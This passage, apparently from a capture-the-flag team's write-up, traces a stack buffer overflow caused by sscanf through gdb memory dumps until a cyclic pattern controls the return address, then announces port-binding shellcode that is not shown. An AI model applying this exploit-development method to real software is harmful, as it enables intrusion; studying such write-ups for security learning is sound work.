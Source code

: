 0xbfc354c0:	0xbfc361b8	0xb7f681e0	0xbfc361b8	0xbfc35de8
0xbfc354d0:	0xbfc361b8	0xb7f33e90	0xbfc35cd8	0xbfc35de8
0xbfc354e0:	0xbfc35cd8	0xbfc35fe0	0xbfc361b8	0x0804d63d
</pre>

And after the overflow, lets see the value of char v8; // \[sp+1E8h\] \[bp-34h\]@1 is :

<pre class="brush: cpp; title: ; notranslate" title="">(gdb) x/20x $ebp-0x34
0xbfc354b4:	0x306141ff	0x41316141	0x61413261	0x34614133
0xbfc354c4:	0x41356141	0x61413661	0x38614137	0x41396141
0xbfc354d4:	0x62413062	0x32624131	0x41336241	0x62413462
0xbfc354e4:	0x36624135	0x41376241	0x62413862	0x30634139
0xbfc354f4:	0x41316341	0x63413263	0x34634133	0x41356341
</pre>

/xff+&#8221;Aa0Aa1Aa&#8230;. -> is our string. So we can see sscanf() causes buffer overflow. We will stepi after sscanf and see:

<pre class="brush: cpp; title: ; notranslate" title="">(gdb) x/4i $eip
0x804cce9 &lt;difftime@plt+15297&gt;:	mov    $0xffffffff,%eax
0x804ccee &lt;difftime@plt+15302&gt;:	lea    -0xc(%ebp),%esp
0x804ccf1 &lt;difftime@plt+15305&gt;:	pop    %ebx
0x804ccf2 &lt;difftime@plt+15306&gt;:	pop    %esi
(gdb) stepi
0x0804ccee in ?? ()
(gdb) stepi
0x0804ccf1 in ?? ()
(gdb) x/4x $esp
0xbfdb7fbc:	0x41336241	0x62413462	0x36624135	0x41376241
(gdb) x/i $eip
0x804ccf1 &lt;difftime@plt+15305&gt;:	pop    %ebx
(gdb) stepi
0x0804ccf2 in ?? ()
(gdb) x/4i $eip
0x804ccf2 &lt;difftime@plt+15306&gt;:	pop    %esi
0x804ccf3 &lt;difftime@plt+15307&gt;:	pop    %edi
0x804ccf4 &lt;difftime@plt+15308&gt;:	pop    %ebp
0x804ccf5 &lt;difftime@plt+15309&gt;:	ret
(gdb) stepi
0x0804ccf3 in ?? ()
(gdb) stepi
0x0804ccf4 in ?? ()
(gdb) stepi
&lt;p&gt;Breakpoint 7, 0x0804ccf5 in ?? ()
(gdb) x/4x $esp
0xbfdb7fcc:	0x62413862	0x30634139	0x41316341	0x63413263
(gdb) x/i $eip
0x804ccf5 &lt;difftime@plt+15309&gt;:	ret
(gdb)
</pre>

Now it will return on 0&#215;62413862. It&#8217;s a basic buffer overflow!

And here is my exploit code (shellcode is a port-binding shellcode on port 4444):


 [1]: /about-us/clgt-ctf-team/
 [2]: http://img40.imageshack.us/img40/7356/screenshot6uh.png
 [3]: http://img215.imageshack.us/img215/3538/screenshot5wz.png